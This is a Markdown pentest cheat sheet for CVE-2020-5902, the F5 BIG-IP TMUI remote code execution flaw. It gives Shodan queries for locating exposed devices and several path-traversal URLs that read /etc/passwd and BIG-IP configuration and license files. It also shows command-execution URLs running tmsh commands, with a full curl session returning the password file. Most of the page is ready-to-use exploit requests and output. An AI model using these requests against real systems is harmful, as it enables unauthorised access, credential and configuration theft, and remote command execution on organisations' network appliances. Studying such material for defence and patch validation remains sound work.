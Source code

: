```yaml
---
title : "CVE-2020-5902"
# pre : ' '
description : "In BIG-IP versions 15.0.0-15.1.0.3, 14.1.0-14.1.2.5, 13.1.0-13.1.3.3, 12.1.0-12.1.5.1, and 11.6.1-11.6.5.1, the Traffic Management User Interface (TMUI), also referred to as the Configuration utility, has a Remote Code Execution (RCE) vulnerability in undisclosed pages."
date : 2020-07-06T10:28:07+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## CVE-2020-5902 - F5 BIG-IP TMUI RCE

### Shodan search

```plain
title:"Big-IP&reg;" org:"Organization Name"
http.title:"BIG-IP&reg;- Redirect" org:"Organization Name"
http.favicon.hash:-335242539 "3992" org:"Organization Name"
```

### Metasploit module

```plain
modules/exploits/linux/http/f5_bigip_tmui_rce.rb
```

### Validate interface accessible

You need to get a 200OK on the following request.

```plain
curl -v -k  'https://{host}/tmui/login.jsp'
```

### Check (Local File Inclusion)

Interesting files:

```plain
https://{host}/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd
https://{host}/tmui/login.jsp/..;/tmui/system/user/authproperties.jsp
https://{host}/tmui/login.jsp/..;/tmui/util/getTabSet.jsp?tabId=jaffa
https://{host}/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/config/bigip.license
https://{host}/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/config/bigip.conf
```

### RCE

```plain
https://{host}/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=whoami
```

```plain
curl -v -k  'https://{host}/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin'
```

### Example RCE

```plain
$ curl -v -k 'https://10.10.10.10/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd'
*   Trying 10.10.10.10:443...
* TCP_NODELAY set
* Connected to 10.10.10.10 (10.10.10.10) port 443 (#0)
* ALPN, offering h2
* ALPN, offering http/1.1
* successfully set certificate verify locations:
*   CAfile: /etc/ssl/certs/ca-certificates.crt
  CApath: /etc/ssl/certs
* TLSv1.3 (OUT), TLS handshake, Client hello (1):
* TLSv1.3 (IN), TLS handshake, Server hello (2):
* TLSv1.2 (IN), TLS handshake, Certificate (11):
* TLSv1.2 (IN), TLS handshake, Server key exchange (12):
* TLSv1.2 (IN), TLS handshake, Server finished (14):
* TLSv1.2 (OUT), TLS handshake, Client key exchange (16):
* TLSv1.2 (OUT), TLS change cipher, Change cipher spec (1):
* TLSv1.2 (OUT), TLS handshake, Finished (20):
* TLSv1.2 (IN), TLS handshake, Finished (20):
* SSL connection using TLSv1.2 / ECDHE-RSA-AES256-GCM-SHA384
* ALPN, server did not agree to a protocol
[...]
> GET /tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd HTTP/1.1
> Host: 10.10.10.10
> User-Agent: curl/7.68.0
> Accept: */*
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Mon, 06 Jul 2020 09:08:33 GMT
< X-Frame-Options: SAMEORIGIN
< Strict-Transport-Security: max-age=16070400; includeSubDomains
< Set-Cookie: JSESSIONID=E3418E061E43DC67AC2E9D59A4E42FC2; Path=/tmui; Secure; HttpOnly
< Content-Type: text/html;charset=ISO-8859-1
< Content-Length: 7630
< X-Content-Type-Options: nosniff
< X-XSS-Protection: 1; mode=block
< Content-Security-Policy: default-src 'self'  'unsafe-inline' 'unsafe-eval' data: blob:; img-src 'self' data:  http://127.4.1.1 http://127.4.2.1
< Vary: Accept-Encoding
<

{"output":"root:x:0:0:root:\/root:\/bin\/bash\nbin:x:1:1:bin:\/bin:\/sbin\/nologin\ndaemon:x:2:2:daemon:\/sbin:\/sbin\/nologin\nadm:x:3:4:adm:\/var\/adm:\/sbin\/nologin\nlp:x:4:7:lp:\/var\/spool\/lpd:\/sbin\/nologin\nmail:x:8:12:mail:\/var\/spool\/mail:\/sbin\/nologin\nuucp:x:10:14:uucp:\/var\/spool\/uucp:\/sbin\/nologin\noperator:x:11:0:operator:\/root:\/sbin\/nologin\nnobody:x:99:99:Nobody:\/:\/sbin\/nologin\ntmshnobody:x:32765:32765:tmshnobody:\/:\/sbin\/nologin\nadmin:x:0:500:Admin User:\/home\/admin:[...]
```

## URL List

* [Nnd.nist.gov](https://nvd.nist.gov/vuln/detail/CVE-2020-5902)
* [Support.f5.com](https://support.f5.com/csp/article/K52145254)
* [Cve.mitre.org](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-5902)
* [Tenable.com](https://www.tenable.com/cve/CVE-2020-5902)
